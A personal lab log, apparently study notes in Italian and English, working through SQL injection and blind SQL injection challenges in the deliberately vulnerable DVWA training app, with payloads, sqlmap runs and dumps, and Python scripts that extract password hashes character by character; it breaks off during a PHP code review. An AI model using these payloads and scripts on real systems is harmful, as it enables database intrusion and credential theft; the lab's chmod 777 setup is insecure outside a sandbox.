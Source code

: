 #+TITLE: DVWA Log
#+AUTHOR: Leonardo Tamiano

* General
  To download docker image
  #+begin_src sh
docker pull vulnerables/web-dvwa
  #+end_src

  To launch docker iamge
  #+begin_src sh
docker run --name dvwa --rm -d -it -p 80:80 vulnerables/web-dvwa
  #+end_src

  To execute the various scripts do
  #+begin_src sh
export PYTHONPATH=.
  #+end_src
  
** Manual installation
   Scaricare: https://dvwa.co.uk/

   #+begin_src sh
curl https://codeload.github.com/digininja/DVWA/zip/master --output ~/Downloads/DVWA-master
cd ~/Downloads
unzip DVWA-master.zip
mv DVWA-master dvwa
cp dvwa
sudo cp -r dvwa /var/www/html
sudo service apache2 start
cd /var/www/html/dvwa
cp config/config.inc.php.dist config/config.inc.php
   #+end_src

   Setting up permissions
   #+begin_src sh
sudo chmod 777 hackable/uploads
sudo chmod 777 config/
chmod 666 /var/www/html/dvwa/external/phpids/0.6/lib/IDS/tmp/phpids_log.txt
   #+end_src

   Change php.ini variables
   #+begin_src sh
sudo find / -name "php.ini" 2> /dev/null
nano /etc/php/7.3/apache2/php.ini 
   #+end_src
  
   Reset db
   #+begin_src sh
sudo service mariadb stop
sudo rm -r /var/lib/mysql/
sudo mysql_install_db
sudo service mariadb start
mysql -u root -p  # then press enter

create database dvwa;
create user dvwa@localhost identified by 'p@ssw0rd';
grant all on dvwa.* to dvwa@localhost;
flush privileges;
exit
   #+end_src
  
* DONE 01 – SQL Injection
  
** DONE Easy

   - [[https://www.youtube.com/watch?v=DuhkzqA8Lmg][DVWA – SQL Injections | easy (ITA)]]
   - [[https://www.youtube.com/watch?v=03e-zx97GM8][DVWA – Automatizzare le SQL Injections con Python | easy (ITA)]]
   
*** Payload
    #+begin_example
' OR 1=1 #   
    #+end_example

    #+begin_example
' UNION SELECT first_name, password FROM users #    
    #+end_example

*** Code
    #+begin_src python
#!/usr/bin/env python3

"""This file contains a simply script that can be used to automate the
exploitation of the SQL injection challenge (easy level) offered by
the Damn Vulnerable Web Application (DVWA) support.
"""

import requests
import urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning())

PROXIES = {
    "http": "http://127.0.0.1:8080",
    "https": "https://127.0.0.1:8080"
}

URL="http://localhost/dvwa/vulnerabilities/sqli/"

CUSTOM_HEADERS = { "Cookie": "security=low; PHPSESSID=9odllamdr98h4b7mk9gsaue7lj" }

PAYLOADS = [
    "' OR 1=1 # ",
    "'",
    "' UNION SELECT first_name, password FROM users # ",
]

# -----------------------

def exploit_sqli(payload):
    params = {"id": payload, "Submit": "Submit"}
    r = requests.get(URL, params=params, headers=CUSTOM_HEADERS)
    soup = BeautifulSoup(r.text, "html.parser")
    div = soup.find("div", {"class": "vulnerable_code_area"})

    if not div:
        print(f"[ERROR]: {r.text}")
        print("==================================")
        print(f"   payload = `{payload}`")
        print(f"   error_msg = `{r.text}`")
        return []

    return div.find_all("pre")

def main():
    print()
    for payload in PAYLOADS:
        results = exploit_sqli(payload)

        if len(results) > 0:
            print(f"[SUCCESS]: Found {len(results)} records!")
            print("==================================")
            print(f"   payload = `{payload}`")

            # -- iterate over all results
            for res in results:
                l = res.decode_contents().split("<br/>")
                print(f"   {l[1]}, {l[2]}")

        print()

# -----------------------

if __name__ == "__main__":
    main()
    #+end_src

** DONE Medium
   [2022-07-23 Sat 18:10]

   - [[https://www.youtube.com/watch?v=Z0tZHoUnsEE][DVWA – SQL Injections | medium (ITA)]]

*** Payload
    #+begin_example
   1 OR 1=1 #
  #+end_example

    #+begin_example
   1 UNION SELECT first_name, password FROM users #
    #+end_example
   
*** Walkthrough
    La richiesta HTTP effettuata è la seguente

    #+begin_example
POST /dvwa/vulnerabilities/sqli/ HTTP/1.1
Host: evil.com
Content-Length: 18
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://evil.com/dvwa/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: security=medium; PHPSESSID=cha7rsj468ggoua24i1pp32k81
Connection: close

id=1&Submit=Submit   

    #+end_example

    Anche se il codice html prova a rinforzare il controllo sul
    valore dell'ID, facendo in modo che L'ID possa essere solamente
    un valore tra 1 e 5.
   
    #+begin_src html
<form action="#" method="POST">
  <p>
    User ID:
    <select name="id">
      <option value="1">1</option>
      <option value="2">2</option>
      <option value="3">3</option>
      <option value="4">4</option>
      <option value="5">5</option>
    </select>
    <input type="submit" name="Submit" value="Submit">
  </p>
  
</form>   
    #+end_src

    Andando a manipolare direttamente la richiesta POST e cambiando il
    valore di ~id~ in un valore a nostra scelta, bypassiamo ogni
    controllo. Se mettiamo il payload

    #+begin_example
   id=1+1&Submit=Submit
    #+end_example

    otteniamo il seguente errore SQL

    #+begin_example
<pre>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '1' at line 1</pre>   
    #+end_example

    La presenza di questo errore è un possibile sintomo del fatto che
    l'input dell'utente è utilizzato direttamente e senza sanificazioni
    per costruire la query che viene poi eseguita sul database. Queste
    potrebbe portare ad una SQL injection.

    --------

    Il payload di interesse per ottenere una sqli è quindi il seguente
   
    #+begin_example
   1 OR 1=1 #
    #+end_example
   
    se poi siamo interessati a tutte le password, possiamo utilizzare
    quest'altro payload
   
    #+begin_example
   1 UNION SELECT first_name, password FROM users #
    #+end_example

    Che ci ritorna la seguente risposta

    #+begin_src html
<pre>ID: 1 UNION SELECT first_name, password FROM users # <br />First name: admin <br />Surname: admin</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: admin<br />Surname: 5f4dcc3b5aa765d61d8327deb882cf99</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: Gordon<br />Surname: e99a18c428cb38d5f260853678922e03</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: Hack<br />Surname: 8d3533d75ae2c3966d7e0d4fcc69216b</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: Pablo<br />Surname: 0d107d09f5bbe40cade3de5c71e9e9b7</pre>
<pre>ID: 1 UNION SELECT first_name, password FROM users #<br />First name: Bob<br />Surname: 5f4dcc3b5aa765d61d8327deb882cf99</pre>
    #+end_src
   
    --------
      
    #+begin_example
POST /dvwa/vulnerabilities/sqli/ HTTP/1.1
Host: evil.com
Content-Length: 65
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://evil.com/dvwa/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: security=medium; PHPSESSID=cha7rsj468ggoua24i1pp32k81
Connection: close

id=1 UNION SELECT first_name, password FROM users #&Submit=Submit      
    #+end_example

** DONE Hard

   - [[https://www.youtube.com/watch?v=CceHyxdYvT4][DVWA – SQL Injections | hard (ITA)]]
   
*** Payload
    #+begin_example
1' UNION ALL SELECT NULL,1
    #+end_example

*** Walkthrough
    Prima di effettuare il livello hard vediamo come utilizzare ~sqlmap~
    nel livello ~easy~. A tale fine attiviamo il proxy e catturiamo la
    richiesta che viene effettuata

    ----------------
   
    #+begin_example
GET /dvwa/vulnerabilities/sqli/?id=1&Submit=Submit HTTP/1.1
Host: evil.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://evil.com/dvwa/vulnerabilities/sqli/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: security=low; PHPSESSID=l1vgsbhkufl414bik8iifrc91m
Connection: close
    #+end_example

    ----------------
  
    Tramite burp la possiamo salvare in un file con (tasto destro ->
    save item) e possiamo poi chiamare ~sqlmap~ come segue

    #+begin_src sh
sqlmap -r sql_easy_request.xml    
    #+end_src

    Dopo un po' di tempo, otteniamo il seguente output

    ----------------

    #+begin_example
sqlmap identified the following injection point(s) with a total of 154 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)
    Payload: id=1' OR NOT 9464=9464#&Submit=Submit

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=1' AND (SELECT 8635 FROM(SELECT COUNT(*),CONCAT(0x7178707671,(SELECT (ELT(8635=8635,1))),0x7170707a71,FLOOR(RAND(0)*2))x FROMS GROUP BY x)a)-- ZnFP&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 8713 FROM (SELECT(SLEEP(5)))WCBw)-- mmPl&Submit=Submit

    Type: UNION query
    Title: MySQL UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x7178707671,0x4c594d43454244515472616c757677727a4350434f6744785952544d6d59666f535379456f7361ubmit   
    #+end_example

    ----------------
  
    Se poi vogliamo estrapolare tutti i dati di interesse, possiamo
    effettuare il seguente comando

    #+begin_src sh
sqlmap -r sql_easy_request.xml --dump   
    #+end_src
   
    otteniamo quindi le seguenti due tabelle

    ----------------

    #+begin_example
Database: dvwa
Table: users
[5 entries]
+---------+---------+----------------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| user_id | user    | avatar                           | password                         | last_name | first_name | last_login          | failed_login |
+---------+---------+----------------------------------+----------------------------------+-----------+------------+---------------------+--------------+
| 1       | admin   | /dvwa/hackable/users/admin.jpg   | 5f4dcc3b5aa765d61d8327deb882cf99 | admin     | admin      | 2022-07-23 17:52:48 | 0            |
| 2       | gordonb | /dvwa/hackable/users/gordonb.jpg | e99a18c428cb38d5f260853678922e03 | Brown     | Gordon     | 2022-07-23 17:52:48 | 0            |
| 3       | 1337    | /dvwa/hackable/users/1337.jpg    | 8d3533d75ae2c3966d7e0d4fcc69216b | Me        | Hack       | 2022-07-23 17:52:48 | 0            |
| 4       | pablo   | /dvwa/hackable/users/pablo.jpg   | 0d107d09f5bbe40cade3de5c71e9e9b7 | Picasso   | Pablo      | 2022-07-23 17:52:48 | 0            |
| 5       | smithy  | /dvwa/hackable/users/smithy.jpg  | 5f4dcc3b5aa765d61d8327deb882cf99 | Smith     | Bob        | 2022-07-23 17:52:48 | 0            |
+---------+---------+----------------------------------+----------------------------------+-----------+------------+---------------------+--------------+

Database: dvwa
Table: guestbook
[1 entry]
+------------+------+-------------------------+
| comment_id | name | comment                 |
+------------+------+-------------------------+
| 1          | test | This is a test comment. |
+------------+------+-------------------------+   

    #+end_example

    ----------------
  
    Nel livello ~hard~ però sqlmap non sembra più funzionare, in quanto
    se catturiamo la richiesta all'endpoint ~session-input.php~ otteniamo
    il seguente risultato
   
    #+begin_example
POST /dvwa/vulnerabilities/sqli/session-input.php HTTP/1.1
Host: evil.com
Content-Length: 18
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://evil.com/dvwa/vulnerabilities/sqli/session-input.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: security=high; PHPSESSID=l1vgsbhkufl414bik8iifrc91m
Connection: close

id=1&Submit=Submit   
    #+end_example
   
    #+begin_src sh
sqlmap -r sql_high_request.xml   
    #+end_src

    #+begin_example
[16:01:30] [CRITICAL] all tested parameters do not appear to be injectable. Try to increase values for '--level'/'- you suspect that there is some kind of protection mechanism involved (e.g. WAF) maybe you could try to use option itch '--random-agent'   
    #+end_example

    Il problema è che questo tipo di injection è una sql injection con
    una ~second-order response~, nel senso che l'output associati al
    payload non è mostrato direttamente ma bisogna effettuare una
    seconda richiesta ad un altro endpoint.
   
    #+begin_example
payload con sqli ---> endpoint #1 ---> cambio stato interno + output inutile
richiesta        ---> endpoint #2 ---> output del payload di prima
    #+end_example

    In questo casi possiamo utilizzare la flag ~--second-url~ offerta da ~sqlmap~

    #+begin_src sh
sqlmap -r sql_high_request.xml --second-url=http://evil.com/dvwa/vulnerabilities/sqli/index.php    
    #+end_src

    Così facendo otteniamo nuovamente che il parametro ~id~ è vulnerabile
    ad una sqli
   
    #+begin_example
POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 63 HTTP(s) requests:
---
Parameter: id (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 2900 FROM (SELECT(SLEEP(5)))dCcN) AND 'TAXB'='TAXB&Submit=Submit

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: id=1' UNION ALL SELECT NULL,CONCAT(0x716b627671,0x68726c704c457854584679595a574967416d6d526a7761717659
t=Submit
---   
    #+end_example

    E riusciamo a dumpare le informazioni del db come abbiamo fatto
    precedentemente.
    
*** Extra: PHP session variables
    #+begin_src php
$_SESSION[ 'id' ] =  $_POST[ 'id' ]; # scrivere variabile di sessione
# ...
$id = $_SESSION[ 'id' ];             # scrivere variabile di sessione
    #+end_src

    Nel file ~/etc/php/7.3/apache2/php.ini~ è presente l'entry
    ~session.save_path~ che punta al path ~/var/lib/php/sessions~. In
    questa cartella sono salvati una serie di file
   
    #+begin_example
root@kali:/var/lib/php/sessions# ls
sess_omegr89sf6f8t3jmkj9s7aqr5o   
    #+end_example

    e il formato di questi file è sempre ~sess_<COOKIE_ID>~. Il contenuto
    di questo file contiene una struttura dati php serializzata, e
    questa struttura dati contiene tutte le variabili di sessione
   
    #+begin_example
root@kali:/var/lib/php/sessions# cat sess_omegr89sf6f8t3jmkj9s7aqr5o
dvwa|a:2:{s:8:"messages";a:0:{}s:8:"username";s:5:"admin";}id|s:1:"3";session_token|s:32:"81a6949061570eabafcf23194d58a628";   
    #+end_example

    Notiamo che è presente anche il valore del campo ~id~. Modificando
    quel valore siamo in grado di cambiare l'output nella relativa
    pagina dell'applicazione.
    
** DONE Impossible

   - [[https://www.youtube.com/watch?v=IPyJHHCXt20][DVWA – SQL Injections | impossible (ITA)]]
     
*** notes
    Livello impossible di DVWA caratterizzato dall'uso di PREPARED STATEMENTS

    #+begin_src php
$data = $db->prepare('SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;');
$data->bindParam(':id', $id, PDO::PARAM_INT);
$data->execute();
$row = $data->fetch();
    #+end_src

    L'idea è quella di SEPARARE i dati dal codice, e infatti nel codice
    delle prepared statement stiamo dicendo, in CODICE, che id deve
    essere un DATO di tipo int (PDO::PARAM_INT).

    Un altro modo, meno robusto, è quello di fare escaping

    #+begin_src php
$escaped_id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);
$query = "SELECT first_name, last_name FROM users WHERE user_id = '{$escaped_id}' LIMIT 1;"
    #+end_src
  
    Questo secondo metodo è meno robusto per via dell'encoding. L'escape
    viene fatto a livello dell'encoding, e quindi dobbiamo stare attenti
    a qual è l'encoding the il server si aspetta di ricevere.

    (vedere UNICODE htb per problemi legati all'encoding dei caratteri)

    -------------------

    Detto questo, anche se ci sono questi due metodi per rendere il
    codice più sicuro, quando siamo di fronte al codice, e basta, cosa
    possiamo veramente dire?

    Possiamo dire che il codice è sicuro?

    In realtà no, perché tipicamente non abbiamo la visione dell'intero
    AMBIENTE in cui quel CODICE viene eseguito. Vediamo solo una piccola
    parte, la parte relativa al CODICE appunto, e questo crea potenziali
    problemi.

    L'idea è che un CODICE dovrà comunque essere eseguito all'interno di
    un AMBIENTE DI ESECUZIONE, e la sicurezza non è una proprietà
    statica solo del codice, ma anche del modo in cui viene eseguito,
    ovvero dipende sia dal CODICE che dall'AMBIENTE DI ESECUZIONE.
  
    Quindi, quello che possiamo dire sicuramente è che il codice è stato
    scritto rispettato gli standard di sicurezza per il relativo
    contesto, in questo caso il contesto di come proteggerci da una SQL
    injection. La sicurezza del sistema sarà poi determinata anche da
    tutti gli altri fattori, tra cui, per menzionarne qualcuno:

    1. Come è implementata la libreria dei prepared statements o
       dell'escaping?

    2. Come è implementato l'interprete PHP che esegue il codice?

    3. Come è implementato il web server che riceve ed invia i messaggi
       HTTP?

    4. Come è implementato il kernel che legge il pacchetto dalla scheda
       di rete e la invia al web server?
  
    5. Come è implementata la scheda di rete che riceve i dati dal cavo?
     
* DONE 02 – SQL Injection (Blind)
** DONE Low

   - [[https://www.youtube.com/watch?v=GTol6pnDMsw][DVWA – Blind SQL Injections | easy (ITA)]]
   
*** Payload
    To force TRUE condition
    #+begin_example
1' AND 1=1 # 
    #+end_example

    To force FALSE condition
    #+begin_example
1' AND 1=0 #  
    #+end_example

**** Q1: check tables
     If returns TRUE, then table exists, otherwise it does not.    
     #+begin_example
1' AND (select 'x' from users LIMIT 1) = 'x' #
1' AND (select 'x' from guestbook LIMIT 1) = 'x' #   
     #+end_example

     In general
     #+begin_example
1' AND (select 'x' from <TABLE> LIMIT 1) = 'x' # 
     #+end_example

**** Q2: users in users table
     #+begin_example
1' AND (select 'x' from users where first_name='<USER>' LIMIT 1) = 'x' #
     #+end_example

     To verify ~admin~ user in table ~users~

     #+begin_example
1' AND (select 'x' from users where first_name='admin' LIMIT 1) = 'x' #      
     #+end_example

     To verify ~asd~ user in table ~users~

     #+begin_example
1' AND (select 'x' from users where first_name='asd' LIMIT 1) = 'x' #
     #+end_example

**** Q3: check password length of user admin

     Check if password is greater than ~i~
     #+begin_example
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > i LIMIT 1) = 'x' #
     #+end_example

     We send a series of queries
     #+begin_example
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 1 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 2 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 3 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 4 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 5 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 6 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 7 LIMIT 1) = 'x' #
...
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 30 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 31 LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and LENGTH(password) > 32 LIMIT 1) = 'x' #     
     #+end_example

     until we find the one that fails, and at that point the length is the previous one.
     
**** Q4: obtain admin password in users tables

     #+begin_example
1' AND (select 'x' from users where first_name='admin' and substring(password, i, 1) = <c> LIMIT 1) = 'x' #
     #+end_example

     #+begin_example
1' AND (select 'x' from users where first_name='admin' and substring(password, 1, 1) = '5' LIMIT 1) = 'x' #
1' AND (select 'x' from users where first_name='admin' and substring(password, 2, 1) = 'f' LIMIT 1) = 'x' #
     #+end_example
     
*** Code

    #+begin_src python
#!/usr/bin/env python3

import requests

URL = "http://evil.com/dvwa/vulnerabilities/sqli_blind/"

CUSTOM_HEADERS = {
    "Cookie": "security=low; PHPSESSID=e8hut8pjnkk4ps2b42bce1ubrl"
}

MAX_PASSWORD_LENGTH = 1024
ALPHABET = "-_" + "0123456789" + "abcdefghijklmnopqrstuvwxyz" + "ABCDEFGHIJKLMNOPQRSTUVWXYZ"

def get_password_length(username):
    global URL, CUSTOM_HEADERS, MAX_PASSWORD_LENGTH
    for i in range(1, MAX_PASSWORD_LENGTH):
        sqli_payload = f"1' AND (select 'x' from users where first_name='{username}' and LENGTH(password) > {i} LIMIT 1) = 'x' # "
        params = {"id": sqli_payload, "Submit": "Submit" }
        r = requests.get(URL, params=params, headers=CUSTOM_HEADERS)
        if "MISSING" in r.text:
            return i

def get_password(username):
    global URL, CUSTOM_HEADERS, ALPHABET 
    
    password_length = get_password_length(username)
    password = ""
    print(f"[{username}]: La lunghezza della password è {password_length}")

    for i in range(1, password_length + 1):
        for c in ALPHABET:
            sqli_payload = f"1' AND (select 'x' from users where first_name='{username}' and substring(password, {i}, 1) = '{c}' LIMIT 1) = 'x' # "
            params = {"id": sqli_payload, "Submit": "Submit" }
            r = requests.get(URL, params=params, headers=CUSTOM_HEADERS)
            if "exists" in r.text:
                password = password + c
                print(c, end="", flush=True)
                break
    print()
    return password

if __name__ == "__main__":
    users = ["admin", "Bob", "Pablo", "Gordon"]
    for user in users:
        password = get_password(user)
        print(f"L'utente {user} ha la password: {password}")    
    #+end_src
    
** DONE Medium

   - [[https://www.youtube.com/watch?v=gg6qA-tWyXc][DVWA – Blind SQL Injections | medium (ITA)]]

*** Payload
    To obtain TRUE condition
    #+begin_example
 '1 AND 1=1 # '
    #+end_example

    To obtain FALSE condition
    #+begin_example
'1 AND 1=0 # '  
    #+end_example

    Since we cannot use ~'~ we have to encode everything using integers as follows

    #+begin_example
first_name='admin' <---> substring(first_name, 1, 1) = CHAR(97) AND
		   	 substring(first_name, 2, 1) = CHAR(100) AND 
			 substring(first_name, 3, 1) = CHAR(109) AND
			 substring(first_name, 4, 1) = CHAR(105) AND
			 substring(first_name, 5, 1) = CHAR(110)
    #+end_example

    We obtain the query

    #+begin_example
    '1 AND (select 1 from users where substring(first_name, 1, 1) = CHAR(97) AND substring(first_name, 2, 1) = CHAR(100) AND substring(first_name, 3, 1) = CHAR(109) AND substring(first_name, 4, 1) = CHAR(105) AND substring(first_name, 5, 1) = CHAR(110) LIMIT 1) = 1 # '
    #+end_example
    
*** Code
    #+begin_src python
#!/usr/bin/env python3

import requests
import urllib3

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning())

URL = "http://localhost/dvwa/vulnerabilities/sqli_blind/"
custom_headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "Cookie": "security=medium; PHPSESSID=3tsk837kk0j907arne8jhunh0l"
}
proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "https://127.0.0.1:8080",    
}

def encode_sql_condition(user):
    sql = ""
    for i, c in enumerate(user):
        sql += f"substring(first_name, {i+1}, 1) = CHAR({ord(c)}) AND "
    return sql[:-5]

def get_password_length(user):
    MAX_LENGTH = 100
    username_sql = encode_sql_condition(user)

    for i in range(1, MAX_LENGTH):
        sql_payload = f"1 AND (select 1 from users where {username_sql} and LENGTH(password) > {i}) = 1 #"
        data = f"id={sql_payload}&Submit=Submit"
        r = requests.post(URL, data=data, headers=custom_headers, proxies=proxies)

        if "MISSING" in r.text:
            return i

def get_password(user):
    password_length = get_password_length(user)
    username_sql_code = encode_sql_condition(user)

    ALPHABET = ""
    ALPHABET += "0123456789"
    ALPHABET += "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
    ALPHABET += "abcdefghijklmnopqrstuvwxyz"

    password = ""
    for i in range(1, password_length + 1):
        for c in ALPHABET:
            sql_payload = f"1 AND (select substring(password, {i}, 1) from users where {username_sql_code}) = CHAR({ord(c)}) #"
            data = f"id={sql_payload}&Submit=Submit"
            r = requests.post(URL, data=data, headers=custom_headers, proxies=proxies)

            if not "MISSING" in r.text:
                password += c
                print(c, end="", flush=True)
                break
            
    return password

if __name__ == "__main__":
    users = ["admin", "Gordon", "Hack", "Pablo", "Bob"]

    for user in users:
        password = get_password(user)
        print()
        print(f"La password di {user} è {password}")
    #+end_src

** DONE High
   [2023-11-01 mer 20:43]

   The challenge is that when we click on "here to change your ID", a
   new window is spawned, in this window we can put the value, and the
   original page changes with our output

   - User ID exists
   - User ID is MISSING

   We should analyze the http protocol of these messages to understand
   what is going on.

*** HTTP Analysis
    What happens at the HTTP layer is as follows:

    - Initially you go to the initial page you see nothing

      #+begin_example
GET /vulnerabilities/sqli_blind/ HTTP/1.1
Host: evil
      #+end_example

    - Then you click on the "here to change your ID", and a new page opens up, which is

      #+begin_example
GET /vulnerabilities/sqli_blind/cookie-input.php HTTP/1.1
Host: evil
      #+end_example

    - Then you submit your input to this page

      #+begin_example
POST /vulnerabilities/sqli_blind/cookie-input.php HTTP/1.1
Host: evil
Content-Length: 18
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://evil
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/sqli_blind/cookie-input.php
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: id=0; PHPSESSID=ois1bv5ekkrsaoj4ir6h1g6p62; security=high
Connection: close

id=1&Submit=Submit
      #+end_example

      When the server responds you back, notice the ~Set-Cookie~ header

      #+begin_example
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 19:59:48 GMT
Server: Apache/2.4.25 (Debian)
Expires: Tue, 23 Jun 2009 12:00:00 GMT
Cache-Control: no-cache, must-revalidate
Pragma: no-cache
Set-Cookie: id=1
Vary: Accept-Encoding
Content-Length: 890
Connection: close
Content-Type: text/html;charset=utf-8
      #+end_example

    - When we go pack to the original page, the value is taken from the cookie

      #+begin_example
GET /vulnerabilities/sqli_blind/ HTTP/1.1
Host: evil
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://evil/vulnerabilities/sqli_blind/
Accept-Encoding: gzip, deflate, br
Accept-Language: it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: id=1; PHPSESSID=ois1bv5ekkrsaoj4ir6h1g6p62; security=high
Connection: close
      #+end_example
   
*** Code Review
    The previous analysis was confirmed by reviewing the code

    #+begin_src php
<?php

if( isset( $_COOKIE[ 'id' ] ) ) {
    // Get input
    $id = $_COOKIE[ 'id' ];

    // Check database
    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

    // Get results
    $num = @mysqli_num_rows( $result ); // The '@' character suppresses errors
    if( $num > 0 ) {
        // Feedback for end user
        echo '<pre>User ID exists in the database.</pre>';
